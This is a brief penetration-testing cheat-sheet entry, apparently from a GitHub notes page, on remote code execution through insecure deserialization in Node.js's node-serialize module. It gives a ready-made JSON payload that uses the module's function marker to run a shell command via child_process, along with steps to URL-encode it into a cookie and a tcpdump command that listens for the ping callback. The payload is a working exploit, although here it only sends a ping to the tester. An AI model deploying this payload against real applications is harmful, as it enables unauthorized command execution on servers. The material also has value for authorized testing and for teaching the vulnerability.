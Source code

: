 ## Node
Check for modules such as `node-serialize`
**Payload:**
```json
{
    "rce":"_$$ND_FUNC$$_function(){require('child_process').exec('ping -c 1 ${T}', function(error, stdout, stderr){console.log(stdout)});}()"
}
```
Then urlendcode and place in cookie 
**Listener:**
`sudo tcpdump -ni tun0 icmp` - listens for ping